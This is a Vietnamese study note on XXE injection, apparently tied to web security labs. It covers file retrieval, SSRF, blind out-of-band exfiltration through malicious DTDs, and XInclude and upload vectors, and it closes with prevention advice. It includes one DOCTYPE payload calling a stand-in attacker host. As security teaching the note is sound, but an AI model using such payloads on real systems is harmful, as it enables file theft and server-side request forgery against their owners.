

# 1. Định nghĩa

- Cho phép kẻ tấn công can thiệp vào quá trình xử lý dữ liệu XML của ứng dụng, xem các tệp trên hệ thống tệp máy chủ ứng dụng và tương tác với bất kỳ hệ thống back-end hoặc bên ngoài nào mà chính ứng dụng có thể truy cập.

- Lợi dụng XXE thực hiện tấn công SSRF.

# 2. Cách phát sinh

- Đặc tả XML chứa các tính năng nguy hiểm tiềm tàng khác nhau và trình phân tích cú pháp tiêu chuẩn hỗ trợ các tính năng này ngay cả khi chúng không được ứng dụng sử dụng bình thường.

# 3. How to find and test

- Phần lớn đều bị phát hiện bằng cách sử dụng ***Burp Scan***.

- Test thủ công:

  - Kiểm tra khả năng truy xuất tệp bằng cách xác định một thực thể bên ngoài ứng dụng, trong đó dữ liệu được trả về trong phản hồi của ứng dụng.

  - Xác định thực thể bên ngoài dựa trên URL tới hệ thống mà mình kiểm soát và giám sát tương tác.

  - Sử dụng cuộc tấn công `XInclude` để cố truy xuất tệp phổ biến.

# [4. Khai thác](./lab/part1.md)

- Để truy xuất tệp (lab 1)

  - sửa đổi XML theo 2 cách

    - Khai báo `DOCTYPE` xác định 1 thực thể bên ngoài có chứa đường dẫn tới tệp

    - Chỉnh sửa giá trị dữ liệu trong XML được trả về trong respond để sử dụng thực thể bên ngoài đã xác định

- Để thực hiện các cuộc tấn công SSRF (lab 2)

  - cần xác định thực thể XML bên ngoài bằng cách sử dụng URL mà bạn muốn nhắm mục tiêu và sử dụng thực thể được xác định trong giá trị dữ liệu

# [5. Blind XXE](./lab/part2.md)

- _**Blind XXE**_ là XXEi nhưng không trả về giá trị dữ liệu trong response

- Phát hiện bằng kỹ thuật OOB (lab 3, 4)

  - tương tự như XXE SSRF, URL mục tiêu sẽ là URL mà ta kiểm soát

  - khi bị block, do một số xác thực đầu vào hoặc phân tích cú pháp XML đang sử dụng, hãy sử dụng tham số XML thay thế

    - đầu tiên là khai báo thực thể với ký tự `%` lên trước tên thực thể: `<!ENTITY % myparameterentity "my parameter entity value" >`

    - thứ hai là tham chiếu bằng cách sử dụng `%`: `%myparameterentity;`

    - VD: `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

- Khai thác để lọc dữ liệu OOB (lab 5)

  - Kẻ tấn công lưu trữ một DTD độc hại trên hệ thống mà họ kiểm soát, sau đó gọi DTD bên ngoài từ bên trong payload XXE.

  - ***DTD (Document Type Definition)***:

    - Là tài liệu dùng để định nghĩa kiểu dữ liệu cho các phần tử của tài liệu XML.

    - Khi đọc tài liệu XML, chỉ cần đọc phần DTD là sẽ biết được cấu trúc XML.  

- Khai thác để truy xuất dữ liệu qua các thông báo lỗi (lab 6)

  - Kích hoạt lỗi phân tích cú pháp XML trong đó lỗi chứa dữ liệu nhạy cảm cần truy xuất và chỉ có hiệu lực nếu ứng dụng trả về thông báo lỗi trong phản hồi của nó.
    
- `lab 7 EXPERT`

# [6. Tìm bề mặt tấn công ẩn](./lab/part3.md)

- Tấn công `XInclude` (lab 8)

  - Một số ứng dụng sẽ nhúng dữ liệu cho người dùng gửi vào tài liệu XML ở phía máy chủ rồi phân tích cú pháp tài liệu đó. Trong tình huống này, ta không thể thực hiện tấn công XXE như các trường hợp trên vì không thể kiểm soắt toàn bộ tài liệu XML, và do đó ta không thể xác định hoặc sử đổi `DOCTYPE`.

  - `XInclude` là một phần của đặc tả XML cho phép xây dựng một tài liệu XML từ các tài liệu phụ.
    
  - Để thực hiện tấn công `XInclude` ta cần tham chiếu tên `XInclude` và cung cấp đường dẫn đến tệp muốn đưa vào.
      
- Thông qua upload file (lab 9)

  - Một số ứng dụng cho phép người dùng tải lên các tệp sau đó được xử lý phía máy chủ. Một số định dạng tệp phổ biến sử dụng XML hoặc chứa các thành phần phụ XML. Ví dụ về các định dạng dựa trên XML là các định dạng tài liệu văn phòng như DOCX và các định dạng hình ảnh như SVG.

- Thông qua chỉnh sửa `Content-type`.

# 7. Phòng chống

- Vô hiệu hóa các tính năng XML nguy hiểm tiềm tàng do thư viện phân tích cú pháp XML của ứng dụng hỗ trợ mà không cần hoặc không sử dụng.

- Vô hiệu hóa độ phân giải của các thực thể bên ngoài và vô hiệu hóa hỗ trợ cho `XInclude`.